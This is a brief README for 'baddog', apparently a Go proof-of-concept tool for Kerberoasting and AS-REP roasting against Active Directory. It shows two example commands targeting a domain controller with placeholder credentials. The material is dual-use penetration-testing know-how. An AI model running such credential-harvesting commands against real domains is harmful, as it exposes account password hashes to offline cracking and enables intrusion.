 # baddog

Simple kerberoast/asreproast POC in Go. Code obviously needs work :)

## Example usage

```
baddog asreproast -u dummyuser -p 'password1!' -d DOMAIN.LOCAL --dc-ip 192.168.1.11 --enc rc4              
baddog kerberoast -u dummyuser -p 'password1!' -d DOMAIN.LOCAL --dc-ip 192.168.1.11 --enc rc4
```

Many many thanks to ropnop, whose "kerbrute" tool really helped me understand how to use the gokrb5 library!
